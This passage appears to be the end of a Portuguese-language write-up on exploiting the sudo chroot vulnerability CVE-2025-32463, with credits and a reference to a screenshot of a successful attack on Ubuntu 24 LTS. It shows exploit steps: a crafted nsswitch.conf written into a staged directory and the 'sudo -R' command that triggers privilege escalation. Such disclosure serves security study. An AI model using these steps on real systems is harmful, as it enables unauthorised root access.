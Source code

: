 Então, usando nosso diretório comprometido, preparar o cenário com coisas como:

```bash
echo "passwd: /vixe32463" >vixe/etc/nsswitch.conf
cp /etc/group vixe/etc
```

E finalmente, explorar a falha com:

```bash
sudo -R vixe vixe
```

## Agradecimentos e créditos

A vulnerabilidade CVE-2025-32463 (**Sudo chroot Elevation of Privilege**) foi descoberta por Rich Mirch, da Stratascale
Cyber Research Unit. A equipe da Stratascale também agradece ao mantenedor do Sudo, Todd Miller, pela parceria.

## Apêndice

### [1] Falha de segurança explorada no Ubuntu 24 LTS

![Ataque com sucesso](../images/Ataque.png)
